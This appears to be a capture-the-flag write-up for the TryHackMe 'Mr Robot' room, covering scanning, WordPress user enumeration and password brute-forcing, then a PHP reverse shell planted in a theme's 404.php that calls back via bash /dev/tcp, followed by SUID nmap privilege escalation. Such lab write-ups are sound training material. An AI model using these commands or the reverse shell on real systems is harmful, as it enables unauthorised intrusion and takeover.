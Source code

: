 ```yaml
---
title: Mr Robot
categories: [TryHackMe]
tags: [Linux, medium,]
image: images/Mr Robot/Mr Robot.png
---
```

**Mr. Robot** is an **medium** rated room on **TryHackMe** inspired by the Mr. Robot TV series. The challenge begins with a web server hosting a WordPress site that contains clues and vulnerabilities. By enumerating the web server, you discover hidden directories and files, leading to the extraction of sensitive information. Gaining initial access involves using cracked credentials found through wordlists and exploiting the WordPress setup.


# 1. Initial Reconnaissance and Scanning:
The first phase of any Capture The Flag (CTF) challenge is information gathering. Our goal here is to identify what services are running on the target machine and which ports are open. This intelligence sets the stage for future attacks. 
### Nmap Scan:
Use Nmap to scan the target's open ports, services, and versions:

```console
nmap -sC -sV -oN nmap_scan <Target_IP>

``` 
●`-sC:` Enables default scripts, often revealing common vulnerabilities.  
●`-sV:` Detects service/version information, such as Apache, OpenSSH, etc.  
●`-oN` nmap_scan: Saves the output into a file named nmap_scan for later reference.

### Understanding the Results:
Look for ports such as:

●**Port 80** (HTTP): Likely indicates a website is running.   
●**Port 443** (HTTPS): Secure HTTP services.   
●**Port 22** (SSH): Useful later for remote access.  

# 2. Web Enumeration :

With **port 80 (HTTP)** open, it's time to explore the website for hidden vulnerabilities or clues. This includes both manual inspection and automated enumeration of directories.

### Inspect the Website:
Visit the site at `http://<Target_IP>`. The website is themed around the **Mr. Robot** show, but stay focused on finding clues. Check the **page source** for hidden comments or links that developers might have left behind.

**robots.txt File:**
The `robots.txt` file can contain sensitive or hidden information that isn't meant for users. Access it with:

```console
curl http://<Target_IP>/robots.txt
``` 


You'll find two key pieces of information:

**●fsocity.dic:** A wordlist for brute-forcing passwords.   
**●key-1-of-3.txt:** The first flag. Retrieve it from `http://<Target_IP>/key-1-of-3.txt`.
Download both files:
```console
wget http://<Target_IP>/fsocity.dic
wget http://<Target_IP>/key-1-of-3.txt
``` 
The **fsocity.dic** file is a wordlist we will use later for brute-forcing the login credentials.

# 3. Directory Brute-Forcing
Next, we perform directory brute-forcing to uncover hidden pages or admin areas. This step can lead to further insights about the target's web structure.

### Gobuster or Dirb Scan:


```console
gobuster dir -u http://<Target_IP> -w /usr/share/wordlists/dirb/common.txt
``` 
●`u:` The target URL.
●`w:` The wordlist (in this case, common.txt).
●`t:` Number of threads to speed up the process.
The scan will reveal directories like `/wp-admin` and `/wp-login.php`, indicating the presence of **WordPress** on the machine a crucial discovery, as WordPress sites are often vulnerable.

# 4. WordPress Enumeration
Knowing that the target is running WordPress, the next step is to enumerate the WordPress installation to identify users and vulnerabilities.

### WPScan:
WPScan is a great tool for WordPress enumeration. Let's start by finding users:

```console
wpscan --url http://<Target_IP> --enumerate u
``` 

This scan will likely reveal a username like **Elliot**, named after the main character from Mr. Robot. Now you have a target for a brute-force attack.

# 5. Brute-Forcing WordPress Login
With the username **Elliot** identified, the next step is to brute-force the password using the **fsocity.dic** wordlist.

### WPScan Brute-Force:
```console
wpscan --url http://<Target_IP> --wordlist fsocity.dic --username Elliot
```
WPScan will attempt to log in with each password in the wordlist until it succeeds, eventually cracking the password.

# 6. Gaining Access Through WordPress
Once you’ve logged in as **Elliot** via `http://<Target_IP>/wp-login.php`, you have control over the WordPress site. Your next goal is to upload a **reverse shell** and gain access to the underlying system.

### Uploading a Reverse Shell:
Go to **Appearance > Theme Editor**, and select the `404.php` file. Replace its content with **Pentestmonkey’s PHP reverse shell**: [link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 

```console
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<Your_IP>/<Your_Port> 0>&1'");
?>
```



Insert your local machine's IP address and the port you want to listen on.

# Netcat Listener:
On your machine, set up a listener with **Netcat**:

```console
nc -lvnp <Your_Port>
```

# Trigger the Reverse Shell:
Visit the following URL to execute the reverse shell:
```console
http://<Target_IP>/wp-content/themes/<theme>/404.php
```

This will establish a connection between the target and your local machine.


# 7. Privilege Escalation
Now that you have a shell, you need to escalate your privileges from a low-level user to **root**.

### System Enumeration:
Check system information and identify potential privilege escalation vectors:
```console
whoami        # Check current user
hostname      # System name
uname -a      # Kernel version
``` 
### Using LinEnum or LinPEAS:
You can automate the privilege escalation enumeration process using tools like **LinEnum** or **LinPEAS**:
```console
wget http://<URL_to_LinEnum>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
### Escalating with SUID Binaries:
Check for binaries with the SUID bit set (which run as root even if you're a regular user):
```console
find / -perm -u=s -type f 2>/dev/null
```
If **nmap** has the SUID bit set, you can use its interactive mode to escalate privileges:
```console
nmap --interactive
!sh
``` 
This will drop you into a root shell.


# 8. Capture the Flags
Now that you have root access, it's time to capture all three flags.

●**First Flag**: Found in the `robots.txt` file (`key-1-of-3.txt`).
●**Second Flag**: Search the home directories to find the second flag:
```console
cat /home/<username>/key-2-of-3.txt
```
●**Root Flag**: The final flag is usually located in the root directory:
```console
cat /root/key-3-of-3.txt
```


 
<h1>
<span style="color:red">
pwned
</span>
</h1>
